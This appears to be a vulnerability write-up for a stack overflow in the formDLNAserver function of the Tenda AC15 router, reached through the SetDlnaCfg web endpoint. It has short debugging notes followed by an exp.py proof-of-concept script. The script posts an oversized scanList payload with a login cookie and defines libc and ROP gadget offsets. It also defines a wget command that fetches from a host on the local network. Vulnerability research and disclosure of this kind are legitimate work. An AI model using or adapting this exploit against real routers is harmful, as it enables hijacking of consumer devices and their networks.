





# tenda_ac15_stackflow_formDLNAserver

The front-end accesses the SetDlnaCfg function, which causes a stack overflow in the formDLNAserver function's scanList variable.





  if ( sub_A5198("/var/etc/upan") )
  
Found that it cannot enter this judgment here.



The main function of this function is to check if a directory is empty. It takes a directory path as an argument and returns an integer value indicating whether the directory is empty. If the directory is not empty, it returns 1, otherwise it returns 0.





Successfully entered the if ( sub_A5198("/var/etc/upan") ) statement.

It will open the file under upan, and the file name is specified by the dlna.db parameter.





Successfully assigned a value to s.
Directly executed the next instruction, but the program crashed due to a stack overflow.



Environment issue, the program needs to be tested on a physical machine.

The program crashed.


exp.py
```
#!/usr/bin/python3

import requests
from pwn import *

target_ip = "192.168.0.3"
target_port = 80  


cmd = b"wget http://192.168.0.1:8000/"
write_addr= 0x000641E8
libc_base = 0x76DAB000
system_offset = 0x5A270
readable_addr_offset = 0x64144
pop_r3_pc = 0x18298
mov_ro_ret_r3_offset = 0x40CB8


payload=b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaafdaafeaaffaafgaafhaafiaafjaafkaaflaafmaafnaafoaafpaafqaafraafsaaftaafuaafvaafwaafxaafyaafzaagbaagcaagdaageaagfaaggaaghaagiaagjaagkaaglaagmaagnaagoaagpaagqaagraagsaagtaaguaagvaagwaagxaagyaagzaahbaahcaahdaaheaahfaahgaahhaahiaahjaahkaahlaahmaahnaahoaahpaahqaahraahsaahtaahuaahvaahwaahxaahyaahzaaibaaicaaidaaieaaifaaigaaihaaiiaaijaaikaailaaimaainaaioaaipaaiqaairaaisaaitaaiuaaivaaiwaaixaaiyaaizaajbaajcaajdaajeaajfaajgaajhaajiaajjaajkaajlaajmaajnaajoaajpaajqaajraajsaa/tjtaajuaajvaajwaajxaajyaaj'
url = f"http://{target_ip}/goform/SetDlnaCfg" 
cookie = {"cookie": "password=cmdcvb"}


data = {"dlnaEn": "aaaa","deviceName":"aaaa","scanList": payload,"dlna.db":"abcdefghyjklmnopqrstuvwxyz"}


response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
```


ROP chain construction and exploitation, please see my GitHub ac15's exploitation chain construction.